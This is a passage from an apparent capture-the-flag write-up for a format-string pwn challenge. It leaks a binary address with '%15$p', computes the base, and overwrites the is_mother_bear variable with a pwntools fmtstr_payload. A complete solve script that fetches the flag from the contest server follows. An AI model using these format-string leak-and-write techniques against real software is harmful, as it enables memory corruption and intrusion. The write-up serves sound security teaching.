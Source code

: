 we can find out that the binary leak is 0x1678 bytes ahead of the actual binary base so we know what to subtract :D



Once we have the correct binary base, we have the correct address of `is_mother_bear`, now we can simply use pwntools `fmtstr_payload` function to set `is_mother_bear` to 0xbad0bad via:

```python
payload = fmtstr_payload(22, {
    is_mother_bear: 0xbad0bad
}, write_size='short')
```

we then send this payload and get the flag.

Here is the full solve script:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./chal", checksec=False)

context.binary = exe
context.terminal = [ 'tmux', 'splitw', '-h' ]
gdbscript='''
b * box+188
c
'''
def conn():
    if args.LOCAL:
        r = process([exe.path])
    else:
        r = remote("chal.amt.rs", 1338)

    return r


def main():
    r = conn()

    # good luck pwning :)
    # gdb.attach(r, gdbscript=gdbscript)
    r.sendlineafter(b'say: ', b'%15$p')
    r.recvuntil(b'0x')
    leak = int( r.recvline().split(b' ')[0], 16 )
    log.info('leak @ %s' % hex(leak))
    exe.address = leak - 0x1678
    log.success('exe.address @ %s' % hex(exe.address))
    is_mother_bear = exe.sym.is_mother_bear
    log.info('is_mother_bear @ %s' % hex(is_mother_bear))
    payload = fmtstr_payload(22, {
        is_mother_bear: 0xbad0bad
    }, write_size='short')
    r.sendlineafter(b'say: ', payload)
    r.sendlineafter(b'say: ', b'flag')
    print(r.recvline_contains(b'amateursCTF').decode())
    r.close()


if __name__ == "__main__":
    main()
```

